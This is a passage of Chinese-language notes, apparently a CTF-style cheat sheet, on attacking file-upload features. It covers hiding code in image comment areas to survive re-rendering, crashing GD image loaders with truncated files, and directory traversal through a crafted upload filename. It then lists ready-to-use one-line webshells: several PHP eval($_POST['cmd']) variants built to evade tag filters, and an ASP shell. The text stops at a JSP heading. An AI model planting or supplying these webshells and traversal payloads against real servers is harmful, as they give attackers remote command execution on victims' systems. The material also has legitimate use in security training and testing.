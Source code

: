 绕过方法：

> - 对渲染/加载测试的攻击方式是代码注入绕过。使用winhex在不破坏文件本身的渲染情况下找一个空白区进行填充代码，一般为图片的注释区。
> - 对二次渲染的攻击方式就是攻击文件加载器自身。例如：
>
> ```
> 上传文件数据不完整的gif文件 -> 触发报错imagecreatefromgif()函数
> 上传文件数据不完整的png文件 -> 触发报错imagecreatefrompng()函数
> ```
>
> 某后台调用GD库对图像进行二次渲染的代码
>
> ```
>  function image_gd_open($file, $extension)
>  {
>  $extension = str_replace('jpg', 'jpeg', $extension);
>  $open_func = 'imageCreateFrom'. $extension; //函数名变成imageCreateFrompng 之类
>  if (!function_exists($open_func))
>  {
>  	return FALSE;
>  }
>  return $open_func($file); //变成imagecreatefrompng('/tmp/phpimage')
>  }
> ```
>
> - 对文件加载器进行攻击，常见的就是溢出攻击。上传自己的恶意文件后，服务器上的文件加载器会主动进行加载测试，加载测试时被溢出攻击执行shellcode，比如access/mdb溢出。

### 文件上传中的目录穿越漏洞

攻击方式

> 形式：上传的文件会被解析为日志不能执行，给出了`/uploads/xxx.php`路径并且可以查询
>
> 绕过：上传文件的时候抓包，修改文件名（filename）为`./../../../../flag`，上传成功后路径变为`/uploads/./../../../../flag`即可进行目录穿越

## 攻击代码

### 常用攻击代码

> 简单的一句话木马
>
> ```
> <?php @eval($_POST['cmd']);?>
> ```
>
> 绕过`<?`限制的一句话木马
>
> ```
> <script language = 'php'>@eval($_POST[cmd]);</script>
> ```
>
>  绕过`<?php ?>`限制的一句话木马  
>
> ```
> <?= @eval($_POST['cmd']);
> ```
>
> asp一句话木马
>
> ```
> <%eval(Request.Item["cmd"],”unsafe”);%>
> ```
>
> JSP一句话木马